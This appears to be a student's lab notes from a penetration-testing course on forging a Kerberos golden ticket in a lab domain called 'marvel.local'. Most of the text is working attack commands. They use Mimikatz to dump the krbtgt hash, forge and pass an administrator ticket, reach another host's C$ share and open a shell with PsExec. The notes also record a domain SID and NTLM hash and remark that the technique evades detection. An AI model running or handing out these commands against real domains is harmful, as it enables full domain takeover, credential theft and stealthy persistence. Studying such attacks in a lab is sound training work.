

GOLDEN TICKET
If you crack the has to the KTGT ssytem... you can create the ticktets...
Look at me >>> im the TGT service now
Golden ticket == complete domain access
we are targeting the krbtgt account so lasdum >> on that account
open mimkatz
do privilege debug
privilege::debug
syntax > lsadump::lsa /inject /name:krbtgt

Details need from dump
SID of domain - S-1-5-21-1431682622-4063751855-3734642212
NTLM hash - 5fba49546608a57d9f69f8b0fe18e762
Syntax >> kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21-1431682622-4063751855-3734642212 krbtgt:5fba49546608a57d9f69f8b0fe18e762 /id:500 /ptt
Kerberos - module
golden - using
user - any name admin looks good
domain - you need the domain name
sid - the SID from the dump
krbtgt - from the dump
id - 500 = admin
ptt - pass the ticket passes it along to next session
change from course material and based on newer version on mimkatz used
https://www.beneaththewaves.net/Projects/Mimikatz_20_-_Golden_Ticket_Walkthrough.html
kerberos::golden /User:Administrator /domain:marvel.local /sid:S-1-5-21-1431682622-4063751855-3734642212 /rc4:5fba49546608a57d9f69f8b0fe18e762 /aes256 /id:500 /ptt
I had to run the above command.. using RC4 instead of krbntgt

Now we can take the ticket to a new session
misc::cmd
we acan attempt to acces the directory of another machine >>> WOLVERINE
syntax >> dir \\WOLVERINE\c$
*facepalm > it would help if the machine was still online

Golden ticket >> persistance.. not usually detected.. BUt Silver ticket!!! new and sneaky
PsExec.exe \\WOLVERINE cmd.exe
got me a shell
before

after


Psexec 64 did not work?? but 32 did! go figure